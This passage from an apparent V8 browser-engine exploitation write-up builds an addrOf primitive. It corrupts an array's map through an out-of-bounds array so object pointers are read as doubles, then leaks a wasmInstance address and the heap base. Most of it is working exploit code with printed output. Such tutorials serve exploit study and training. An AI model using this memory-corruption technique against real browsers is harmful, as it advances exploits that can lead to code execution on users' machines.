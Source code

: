 Now that we know what the corrupt value should be, we can now move on to the `addrOf` primitive.

```js
// if isLower is true, it will take the lower 32 bits
// if islower is false, it will take the upper 32 bits
// if isLower is set to null then it will take the full 64 bits

function addrOf(object, isLower) {

    addr = null;
    backup = oob_Array[33]; // this where the map of the corruptedmaparray is located at
    oob_Array[fixedArray_map_to_be_replaced_at_index] = corruptValue.asDouble(); //  Change the map of the object array to trick into thinking that it is a double array
    obj_arr_to_corrupt[0] = object; // Write in the object at the object array that we want to get the address of
    if (isLower == true) {
  
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString().slice(10, 18);
    } else if (isLower == false) {
  
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString().slice(0, 10);
    } else {
        addr = Int64.fromDouble(obj_arr_to_corrupt[0]).toString();
    }
    oob_Array[33] = backup; // Changing the map back to an object for safety
  
    return addr;
}
```
  
We can now check if it works

```js
console.log(addrOf(wasminstance));
```

![addrofTest.jpg](addrofTest.jpg)

Since this is in the lower 32 bits, we can add true to the `addrOf` function

```js
console.log(addrOf(wasmInstance,true));
// prints 082187bd
```

Now that we have the compressed pointer to wasmInstance and that we need to get the value of `wasmInstance`'s offset, we need to get the base. As mentioned earlier, we can find this base in the memory dump. Currently, it happens to be at offset 82 at this stage at the upper 32 bits. It can change when more variables are added later on.

![base.jpg](base.jpg)

We can get it simply with the following snippet.

```js
const heapBaseIndex = 82;
heapBase = Int64.fromDouble(oob_Array[heapBaseIndex]).toString().slice(10, 18);
```

---